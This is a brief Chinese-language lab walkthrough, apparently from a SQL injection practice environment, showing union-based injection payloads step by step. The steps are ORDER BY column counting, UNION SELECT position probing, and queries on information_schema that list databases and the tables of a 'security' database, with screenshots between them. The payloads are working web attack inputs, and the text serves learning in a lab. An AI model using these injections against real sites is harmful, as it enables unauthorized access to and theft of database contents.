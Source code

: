 #### 进行实验

判断检索的字段个数：`?id=1 order by 3 -- +`

![image-20211013185523608](./typora-user-images/image-20211013185523608.png)

查询报错的对应位置：`?id=-1 union select 1,2,3`

![image-20211013191503814](./typora-user-images/image-20211013191503814.png)

查询数据库名：`?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata`

![image-20211013191911422](./typora-user-images/image-20211013191911422.png)

查询security数据库名中的表：`?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479`

![image-20211013192431475](./typora-user-images/image-20211013192431475.png)

